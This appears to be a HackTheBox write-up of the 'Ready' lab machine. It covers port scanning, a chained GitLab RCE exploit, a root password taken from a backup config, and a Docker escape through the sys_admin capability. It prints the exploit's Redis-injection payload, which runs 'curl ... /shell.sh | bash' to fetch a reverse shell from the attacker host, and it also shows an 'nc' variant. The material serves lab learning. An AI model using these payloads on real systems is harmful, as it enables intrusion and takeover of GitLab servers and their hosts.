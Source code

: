 ```yaml
---
title: Ready Writeup [HTB]
tags: [HackTheBox, Docker, Gitlab]
image: /assets/images/ready/ready.png
published: true
banner: true
---
```


Ready is a Linux based machine that was active since December 12th of 2020 to ---, on this machine we will exploit two vulnerabilities on Gitlab that chained together will allow us to get command execution on the machine, looking at the configuration files we will find the password of root user, but we will find out that we are inside a Docker container, finally we will escape from the container thanks to sys_admin capability.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.220
nmap -sC -sV -p 22,5080, -Pn -o scan.txt 10.10.10.220

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find two ports open, ssh and a webpage on port 5080, this site is running gitlab, so to access to it we register an account

![](/assets/images/ready/register.png)

# [](#header-1)Gaining Access

There are two CVEs (2018-19585 and 2018-19571) that together would allow us to get command execution on the machine if the gitlab version is vulnerable to it, we can find a [PoC](https://www.exploit-db.com/exploits/49334) on exploitdb for it, but on this case I used one available on [packetstorm](https://packetstormsecurity.com/files/160699/GitLab-11.4.7-Remote-Code-Execution.html), there is some changes that we need to make, first on the line that says `local_port = args.p`, we have to change it for `local_port = args.P` (note the uppercase), and we modify:

```python
form = """\nmulti
    sadd resque:gitlab:queues system_hook_push
    lpush resque:gitlab:queue:system_hook_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":[\\"class_eval\\",\\"open(\\'|""" + f'nc {local_ip} {local_port}' + """ \\').read\\"],\\"retry\\":3,\\"queue\\":\\"system_hook_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created_at\\":1608799993.1234567,\\"enqueued_at\\":1608799993.1234567}"
    exec
    exec
    exec\n"""
```

for:

```python
form = """\nmulti
    sadd resque:gitlab:queues system_hook_push
    lpush resque:gitlab:queue:system_hook_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":[\\"class_eval\\",\\"open(\\'|""" + f'curl {local_ip}:{local_port}/shell.sh | bash' + """ \\').read\\"],\\"retry\\":3,\\"queue\\":\\"system_hook_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created_at\\":1608799993.1234567,\\"enqueued_at\\":1608799993.1234567}"
    exec
    exec
    exec\n"""
```

As usual shell.sh contains a bash reverse shell command, I set up a http server with python and a listener, then run `python3 gitexpl.py -u <username> -p <password> -g http://10.10.10.220 -l 10.10.14.205 -P 8000` and we will get a shell in the machine.

![](/assets/images/ready/shell1.png)

This user also can read the file user.txt located at /home/dude

# [](#header-1)Privilege Escalation

According to the machines one of the first thing I do is look for configuration files, so after a quick check to the [docs](https://docs.gitlab.com/omnibus/settings/configuration.html), we find out that the configuration file for gitlab is "gitlab.rb", so let's search for all the copies of this file that we can read (looking for files that you can't read at the moment can be worth for further steps though, I just make it for cleaner output and move on faster if I can't access to them).

![](/assets/images/ready/findgit.png)

There are a couple of them, but most of them were modified over 2 years ago, so the one that caught our attention is the one located at /opt/backup. gitlab.rb is a huge configuration file, but we know that the commented lines start with "#", so let's grep for the configurations that are in place at the moment, `grep -v "^#" /opt/backup/gitlab.rb | grep -v "^$"`

![](/assets/images/ready/grep.png)

We found a smtp password, this password is also the password of root user.

![](/assets/images/ready/root1.png)

# [](#header-1)Docker Escape

We are root, but we haven't finished yet, since after exploring the machine we find out that we are inside a Docker container, so we check the capabilities of the container.

![](/assets/images/ready/capsh.png)

We see that the have the sys_admin capability, if the check the [manual](https://man7.org/linux/man-pages/man7/capabilities.7.html) this allows us to mount disks on the machine, so let's see the available disks with fdisk, there we see /dev/sda.

![](/assets/images/ready/devsda.png)

Knowing that we can create a directory, mount it there and access to the host system.

![](/assets/images/ready/root2.png)

We could use chroot to interact like we are inside the machine, download root ssh key, add our own key, modify the shadow file, and a lot of other methods if we want a direct access to the machine.